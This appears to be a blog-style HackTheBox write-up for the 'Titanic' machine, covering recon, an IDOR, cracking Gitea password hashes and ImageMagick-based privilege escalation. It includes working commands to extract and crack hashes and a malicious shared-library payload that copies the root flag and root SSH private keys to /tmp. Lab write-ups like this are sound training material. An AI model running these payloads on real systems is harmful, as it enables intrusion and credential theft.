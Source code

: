 ```yaml
---
title: 【HTB Machine】Titanic
date: 2025-07-14
tags:
  - ctf
url: "/posts/HTB/Titanic/"
---
```


# Recon

```sh
nmap -sS -A -p- --min-rate 10000 -oN nmap.txt Remote_IP
```

![nmap](/images/htb/titanic/nmap.png)

```sh
echo 'Remote_IP titanic.htb' | sudo tee -a /etc/hosts
```

# Web on titanic.htb port 80

![web](/images/htb/titanic/web_on_port_80_1.png)

![web](/images/htb/titanic/web_on_port_80_2.png)

Burp 攔截封包

![post_catch](/images/htb/titanic/post_catch.png)

![catch2](/images/htb/titanic/catch2.png)

IDOR vulnerability

![IDOR](/images/htb/titanic/IDOR.png)

發現有個 `dev` subdomain

```sh
echo 'Remote_IP dev.titanic.htb' | sudo tee -a /etc/hosts
```

# Web on dev.titanic.htb

![gitea](/images/htb/titanic/gitea.png)

可以得到 source code

- gitea 設定檔

![app_ini](/images/htb/titanic/app_ini.png)

- SQLite 資料庫

![sqlite](/images/htb/titanic/sqlite.png)

需要先轉換一下格式

```sh
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo "$data" | cut -d '|' -f3); echo "${name}:sha256:${salt}:${digest}"; done | tee hashes.txt
```

hashcat 爆破

```sh
hashcat hashes.txt /usr/share/wordlists/rockyou.txt --user
```

得到 developer 密碼，登入 ssh

```sh
ssh developer@Remote_IP
cat ~/user.txt
```

# Privilege Escalation

```sh
$ ls /opt
app containerd scripts

$ ls /opt/scripts
identify_images.sh

$ cat /opt/scripts/identify_images.sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log

$ magick --version
Version: ImageMagick 7.1.1-35 ...
```

經搜尋後發現有個遠端程式碼執行漏洞

![magick](/images/htb/titanic/magick.png)

偷 root flag/ssh private key

```sh
$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
> #include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void __attribute__((constructor)) init() {
    system("cat /root/root.txt > /tmp/root.txt");
    system("cat /root/.ssh/* > /tmp/id_rsa");
    exit(0);
}
> EOF
$ cd /opt/app/static/assets/images
$ cp entertainment.jpg root.jpg
$ rm root.jpg
$ cp entertainment.jpg root.jpg
$ cat /tmp/root.txt
{ROOT_FLAG_HERE}
```
